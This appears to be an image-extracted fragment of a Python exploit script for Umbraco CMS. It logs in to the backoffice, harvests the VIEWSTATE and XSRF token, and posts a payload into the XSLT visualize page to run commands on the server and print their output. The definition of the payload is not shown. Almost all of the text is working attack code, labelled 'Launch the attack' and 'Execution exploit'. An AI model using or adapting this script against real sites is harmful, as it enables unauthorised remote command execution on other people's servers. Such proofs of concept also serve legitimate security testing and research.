 ```
https_proxy  = "http://127.0.0.1:8080"                                                                                                                    
ftp_proxy  = "http://127.0.0.1:8080"                                                                                                                      
                                                                                                                                                          
proxyDict = {                                                                                                                                             
                      "http"  : http_proxy,                                                                                                               
                      "https" : https_proxy,                                                                                                              
                      "ftp"   : ftp_proxy                                                                                                                 
                                                                                                                                                          
}                                                                                                                                                         
                                                                                                                                                          
# Process Login                                                                                                                                           
url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"                                                                              
loginfo = { "username": login, "password": password}                                                                                                      
s = requests.session()                                                                                                                                    
r2 = s.post(url_login,json=loginfo, proxies=proxyDict )                                                                                                   
                                                                                                                                                          
# Go to vulnerable web page                                                                                                                               
url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"                                                                                            
r3 = s.get(url_xslt, proxies=proxyDict)                                                                                                                   
                                                                                                                                                          
soup = BeautifulSoup(r3.text, 'html.parser')                                                                                                              
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']                                                                                                          
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers, proxies=proxyDict)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
```
# Execution exploit
